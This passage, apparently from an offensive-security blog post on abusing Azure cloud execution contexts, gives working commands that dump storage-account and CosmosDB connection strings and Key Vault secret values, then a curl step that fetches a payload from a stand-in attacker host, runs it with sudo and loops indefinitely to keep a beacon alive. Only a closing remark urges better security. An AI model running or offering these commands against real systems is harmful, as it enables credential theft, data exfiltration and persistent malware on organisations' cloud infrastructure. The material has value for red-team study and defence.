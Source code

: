And the above list can continue with pretty much any Azure cloud enumeration command you can think of afterwards…obviously, you can also install new tools and execute them in this context.

- Iterate through resources to fetch their connection strings to be used with Azure Storage Explorer or Azure Data Studio.
    

```
# Ensure you install jq with sudo apt install jq -y
# Find storage accounts
az storage account list | jq ".[].name" | awk "{print $1}" | xargs -I % sh -c "{ az storage account show-connection-string -n %; sleep 7;}" | jq ".connectionString"

#Find cosmosdb
az cosmosdb list | jq ".[].name" | awk "{print $1}" | xargs -I % sh -c "{ az cosmosdb list-connection-strings -n % --resource-group ; sleep 7;}" | jq ".connectionString"
```

- Enumerate and fetch secrets from keyvaults.

```
# Show secrets names
az keyvault secret list --include-managed --vault-name "vault-name" --maxresults 25

# Show secrets'secret values :)
az keyvault secret show --vault-name vault-name --name "secrets-name" | jq '.value' | tr -d '"'
```

- Download and execute malware, and sleep indefinitely to ensure the beacon is not killed. This is how you can maintain persistent access to an otherwise ephemeral box.
    

```
# Fetch the payload from attackerinfra.com
curl -k -X $'GET' \
-H $'Host: attackerinfra.com' -H $'Sec-Ch-Ua: \
"Not A(Brand\";v=\"24\", \"Chromium\";v=\"110\"' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'Upgrade-Insecure-Requests: 1' [...] -H $'Connection: close' \
$'https://attackerinfra.com/MailDriverIntegration' > /home/agentuser/MailDriverIntegration

# Execute the malware
chmod +x /home/agentuser/MailDriverIntegration
sudo /home/agentuser/MailDriverIntegration & disown

# Sleep indefinitely
while [ 1 ]; do sleep 3; echo "test"; done;

```

In the past, these commands and techniques have given us unfettered access to a plethora of information and data. At times, this was sensitive business data that could demonstrate that damage could be done even with non-dev accounts in the cloud, which are usually less protected for ease of access. Clearly, this is a reason to extend security best practices to all the departments in an organisation.

### The man in the high castle

